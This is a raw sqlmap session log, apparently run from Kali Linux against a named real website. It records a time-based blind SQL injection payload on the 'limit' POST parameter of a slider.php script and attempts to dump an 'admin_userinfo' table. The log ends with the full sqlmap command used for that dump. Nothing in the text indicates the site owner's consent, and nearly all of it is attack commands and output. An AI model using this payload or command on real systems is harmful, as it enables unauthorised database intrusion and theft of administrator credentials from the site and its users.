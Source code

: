 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:59:16

[18:59:16] [INFO] loading tamper module 'between'
[18:59:16] [INFO] resuming back-end DBMS 'mysql' 
[18:59:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:59:17] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:59:17] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:59:17] [INFO] fetching columns for table 'admin_userinfo' in database 'qaisare_com'
[18:59:17] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:59:25] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:59:25] [ERROR] unable to retrieve the number of columns for table 'admin_userinfo' in database 'qaisare_com'
[18:59:25] [WARNING] unable to retrieve column names for table 'admin_userinfo' in database 'qaisare_com'
[18:59:25] [INFO] fetching entries for table 'admin_userinfo' in database 'qaisare_com'
[18:59:25] [INFO] fetching number of entries for table 'admin_userinfo' in database 'qaisare_com'
[18:59:25] [INFO] retrieved: 
[18:59:26] [WARNING] unable to retrieve the number of entries for table 'admin_userinfo' in database 'qaisare_com'
[18:59:26] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:59:26

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo --dump 
